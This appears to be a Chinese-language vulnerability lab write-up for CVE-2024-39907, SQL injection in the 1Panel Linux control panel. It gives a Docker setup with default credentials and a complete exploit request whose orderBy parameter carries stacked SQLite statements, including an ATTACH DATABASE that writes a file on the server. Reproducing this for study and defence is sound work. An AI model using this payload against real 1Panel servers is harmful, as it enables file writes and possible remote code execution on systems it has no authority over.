

# 1Panel控制面板SQL注入漏洞 (CVE-2024-39907)

1Panel是一款基于Web的Linux服务器管理控制面板，提供服务器管理的图形化界面。

CVE-2024-39907是1Panel控制面板中存在的多个SQL注入漏洞集合，这些漏洞存在于1Panel的多个接口中，部分注入点由于过滤不善，可能导致攻击者实现任意文件写入，最终达成远程命令执行(RCE)。该漏洞影响1Panel v1.10.9-lts及更早版本，已在v1.10.12-lts版本中得到修复。

References:

- <https://github.com/projectdiscovery/nuclei-templates/blob/main/http/cves/2024/CVE-2024-39907.yaml>
- <https://github.com/1Panel-dev/1Panel/security/advisories/GHSA-5grx-v727-qmq6>
- <https://hub.docker.com/r/moelin/1panel>

## 环境搭建

执行如下命令启动一个有漏洞的1Panel v1.10.10-lts：

```
docker compose up -d
```

环境启动后，访问`http://your-ip:10086/entrance`，使用以下默认凭据登录：

- 端口：`10086`
- 用户名：`1panel`
- 密码：`1panel_password`
- 入口路径：`entrance`

## 漏洞复现

登录1Panel控制面板后，漏洞存在于`/api/v1/hosts/command/search`接口中，`orderBy`参数缺乏适当的输入验证，导致SQL注入攻击。

发送以下恶意POST请求来利用该漏洞：

```
POST /api/v1/hosts/command/search HTTP/1.1
Host: your-ip:10086
Accept-Language: zh
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36
Cookie: psession=your-session-cookie
Connection: close
Content-Type: application/json
Content-Length: 83

{
  "page":1,
  "pageSize":10,
  "groupID":0,
  "orderBy":"3;ATTACH DATABASE '/tmp/randstr.txt' AS test;create TABLE test.exp (data text);create TABLE test.exp (data text);drop table test.exp;",
  "order":"ascending",
  "name":"a"
}
```

`orderBy`参数中的恶意负载利用SQLite的ATTACH DATABASE功能在服务器文件系统上创建任意文件，演示了成功的SQL注入攻击。处理请求时，1Panel后端会执行注入的SQL命令而不进行验证，确认漏洞存在且可被利用。



这些数据库操作命令的成功执行证明SQL注入漏洞可以被利用来实现潜在的远程代码执行。
